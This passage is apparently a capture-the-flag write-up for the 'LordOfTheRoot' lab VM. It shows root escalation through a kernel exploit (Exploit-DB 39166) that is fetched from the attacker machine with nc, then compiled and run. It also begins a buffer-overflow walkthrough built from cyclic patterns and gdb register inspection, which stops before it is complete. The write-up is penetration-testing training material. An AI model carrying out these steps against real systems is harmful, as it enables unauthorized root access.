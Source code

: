 ## Root - Via Kernel Exploit
1. Linpeas
	![](images/Pasted%20image%2020220125174639.png)
	- `3.19.0-25-generic`
	- `Ubuntu 14.04`
2. Find exploits for `3.19.0-25-generic, Ubuntu 14.04`
	- https://www.exploit-db.com/exploits/39166
3. Transfer to target & exploit
	```
	smeagol@LordOfTheRoot:/tmp$ nc 192.168.236.4 4444 > 39166.c
	smeagol@LordOfTheRoot:/tmp$ gcc 39166.c -o exploit
	smeagol@LordOfTheRoot:/tmp$ ./exploit
	root@LordOfTheRoot:/tmp# 
	```
	![](images/Pasted%20image%2020220125180356.png)
	
## Root - Via BufferOverflow
- [Video Demo](https://youtu.be/qPBUKSKk5g4)
1. Determine Buffer Size till EIP overflows with A
	- Via fuzzing
	- Buffer Size: 200
2.  Create msf-pattern
	```
	msf-pattern_create -l 200
	Pattern:
	run $(python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"')
	```
3. Use `env`
	```
	env - gdb /SECRET/door3/file
	show env
	unset env LINES
	unset env COLUMNS
	show env
	```
4.  Determine Pattern Address & Return Address
	```
	# Determine Return Address 
	# Address must not have badChars
	i r # Look at ESP
	i r esp
	x/40x $esp
	
